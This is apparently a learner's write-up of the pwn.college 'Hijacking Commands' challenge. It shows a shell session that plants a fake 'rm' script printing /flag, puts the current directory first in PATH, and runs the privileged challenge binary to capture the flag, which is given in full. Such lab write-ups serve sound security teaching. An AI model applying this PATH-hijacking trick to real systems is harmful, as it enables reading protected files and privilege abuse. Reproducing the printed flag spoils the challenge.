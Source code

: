 # Challenge Name
Hijacking Commands

## My solve
**Flag:** `pwn.college{EGumzng1hvNtkYjtptqXX5cthEw.QX3cjM1wCN3gjNzEzW}`

This was basically a combination of all challenges in this module. I had to echo `cat/flag` to rm so that when `/challenge/ru` will run rm it will simply print the flag. I then made rm a executable after which I set the current path. Finally running the /challenge/run gave me the flag.
```bash
hacker@path~hijacking-commands:~$ echo 'cat /flag' > rm
hacker@path~hijacking-commands:~$ chmod +x rm
hacker@path~hijacking-commands:~$ export PATH=".:$PATH"
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
Found 'rm' command at /home/hacker/rm. Executing!
pwn.college{EGumzng1hvNtkYjtptqXX5cthEw.QX3cjM1wCN3gjNzEzW}
```

## What I learned
Revision of all previous challenges

## References 
None